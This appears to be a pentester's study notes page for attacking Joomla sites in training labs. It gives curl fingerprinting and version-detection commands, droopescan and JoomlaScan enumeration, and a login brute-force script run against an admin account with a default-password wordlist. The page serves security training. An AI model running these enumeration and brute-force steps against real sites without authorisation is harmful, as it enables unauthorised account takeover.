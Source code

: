 # Footprint
```bash
curl -s http://dev.inlanefreight.local/ | grep Joomla
```
or check robot.ts as in [[joomla robots.txt]] 
# Detect version
```bash
curl -s http://dev.devvortex.htb/administrator/manifests/files/joomla.xml|grep 'version>'

curl -s http://dev.inlanefreight.local/README.txt | head -n 5

curl -s http://dev.inlanefreight.local/administrator/manifests/files/joomla.xml | xmllint --format -
```
The cache.xml file can help to give us the approximate version. It is located at plugins/system/cache/cache.xml.
# Enumeration
https://github.com/droope/droopescan
```bash
sudo pip3 install droopescan
droopescan scan joomla --url http://dev.inlanefreight.local/
```

https://github.com/drego85/JoomlaScan
```bash
git clone https://github.com/drego85/JoomlaScan && cd JoomlaScan
sudo python2.7 -m pip install urllib3 certifi bs4
python2.7 joomlascan.py -u http://dev.inlanefreight.local
```

login brutforce
```bash
git clone https://github.com/ajnik/joomla-bruteforce && cd joomla-bruteforce

python3 joomla-brute.py -u http://dev.inlanefreight.local -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin
 
admin:admin
```